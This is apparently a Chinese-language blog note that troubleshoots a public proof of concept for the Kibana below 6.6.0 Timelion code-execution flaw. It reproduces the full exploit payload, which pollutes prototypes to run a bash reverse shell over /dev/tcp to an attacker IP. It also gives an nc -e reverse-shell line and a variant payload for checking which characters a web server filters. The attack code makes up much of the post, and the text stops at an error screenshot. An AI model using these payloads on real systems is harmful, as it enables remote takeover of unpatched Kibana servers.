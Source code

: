 [kibana < 6.6.0 代码执行漏洞](https://mp.weixin.qq.com/s?__biz=MzU4NDY3MTk2NQ==&mid=2247483794&idx=1&sn=b6b89c76bcef4c4ae00c7825eae65911&chksm=fd977620cae0ff369a77f35c00f716633bc11f46a2d69cffc124aee0e887d1bdb28dafd7092e&mpshare=1&scene=1&srcid=10173D4neJGkMFAzZKFUY3Hq&sharer_sharetime=1571379758140&sharer_shareid=3674d5df50965fb924ba35f64042cb57&key=082e6c85f2c47b1f03b0117bea5ecb45ad6ce60a71d552945cfdb69f7bd1332627be1e0c0ac86ae603973bf27ed50c33f44bd9d69a349a9d1774980ba97940ecdd1d9f170f8d6293bf0008e4867a7ca9&ascene=1&uin=MTMyNzEzMTk2NQ%3D%3D&devicetype=Windows+10&version=6207014a&lang=zh_CN&pass_ticket=2e0979dZaaW4sERvwfwMbQ5WAC7qGCpHgYP6fNjJ9%2Bo7%2BGEcjuBDNexgMNH%2F%2F4lD) 这篇文章里面给的 poc（使用 bash 反弹 shell）很多人执行不了，这是为什么呢？

``` shell
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

## 文件位置
一个猜想是：可能是因为 `/dev/tcp` 这个位置不是每个 Linux 环境都有。标准 tcp 套接字文件，每个 linux 都有，只是不同发行版，放的位置可能不太一样。可能某些  linux 系统刚好不是这个位置、所以不行。不行的情况下可以尝试用 nc 或者 python 去反弹 shell。


## 特殊字符传递

另一个原因可能是因为特殊字符传递的问题。

观察一下 nc 反弹 shell 的命令：

``` shell
nc -e /bin/bash 144.*.*.70 7770
```

和 bash 反弹 shell 命令的区别：

``` shell
bash -i >& /dev/tcp/192.168.0.136/12345 0>&1
```

可以观察到： bash 反弹 shell 命令中多了一些特殊字符，比如 `&` 和 `>`。


在进行此命令执行的时候，要通过 web 服务器发包。web 服务器都有一些特殊字符过滤功能。比如：get方式的http请求，&符号是特殊字符。

可能是我们发包的时候 `&`等符号被识别为特殊字符，过滤掉了。

我之前thinkphp命令执行弹shell，直接使用bash是弹不出来的，但是命令行bash能弹出来。这个可能就是web服务器进行了过滤。

如果要验证是不是被web服务器特殊字符过滤使得poc不完整，可以通过如下 payload 进行验证：


```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("echo 'bash -i >& /dev/tcp/192.168.0.136/12345 0>&1' > /tmp/aaa.txt");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

把此命令通过echo写入/tmp/aaa.txt，然后查看aaa.txt跟原反弹shell命令进行对比，就知道哪个字符被过滤掉了。

但是理想很丰满，现实很骨感。通过此 payload 在 Kibana 上进行测试，报错了：


![title](https://leanote.com/api/file/getImage?fileId=5daa94ecab64412e1f000164)
